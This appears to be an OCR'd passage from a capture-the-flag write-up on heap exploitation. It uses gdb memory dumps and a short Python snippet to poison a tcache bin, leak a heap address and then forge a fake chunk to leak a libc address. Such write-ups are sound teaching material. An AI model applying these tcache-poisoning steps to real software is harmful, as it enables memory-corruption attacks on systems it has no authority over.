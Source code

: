 ```
0x604750:	0x0000000000000000	0x0000000000000000
0x604760:	0x0000000000000000	0x0000000000000031
0x604770:	0x0000000000604700	0x0000000000000000
0x604780:	0x0000000000000000	0x0000000000000000
0x604790:	0x0000000000000000	0x000000000001f871
```

The heap address(`0x604700`) can be put in the `tcachebin` of `0x3c0`, so the heap address can be leaked.
```
gdb-peda$ x/100gx 0x603200
0x603200:	0x0000000000000000	0x0000000000000000
0x603210:	0x0000000000000000	0x0000000000000000
0x603220:	0x0000000000604700	0x0000000000000000  <- This 0x604700 can be leaked.
0x603230:	0x0000000000000000	0x0000000000000000
0x603240:	0x0000000000000000	0x0000000000000000
0x603250:	0x0000000000000000	0x0000000000000411
0x603260:	0x7920796150202e34	0x6c6c69622072756f
0x603270:	0x61656c20646e6120	0x6e612074690a6576

pwndbg> bins
tcachebins
0x3c0 [  1]: 0x604700 ◂— 0x0
```

If we know the heap address, we can create a fake `chunk` in the above area, so we can leak the `libc` address as shown below.

```
0x603200:	0x0000000000000000	0x0000000000000000
0x603210:	0x4141414141414141	0x0000000000001461
0x603220:	0x00007ffff7dcdca0	0x00007ffff7dcdca0  <- This 0x7ffff7dcdca0 can be leaked.
0x603230:	0x0000000000000000	0x0000000000000000
0x603240:	0x0000000000000000	0x0000000000000000
0x603250:	0x0000000000000000	0x0000000000000411
0x603260:	0x7461657243202e0a	0x2077656e20612065
0x603270:	0x2e320a726564726f	0x6e61207469644520
```
The `python` code for the `libc` leak
```python
# Make large chunk in tcache
Delete(0)
Delete(1)
Edit(1, p64(heap_base + 0x210))
Create()
Create()
Edit(9, "A"*8+p64(heap_offset - 0x300 + 0x61))

Delete(0)
Delete(1)
Edit(1, p64(heap_base + 0x220))
Create()
Create()

# libc leak
Delete(11)
```
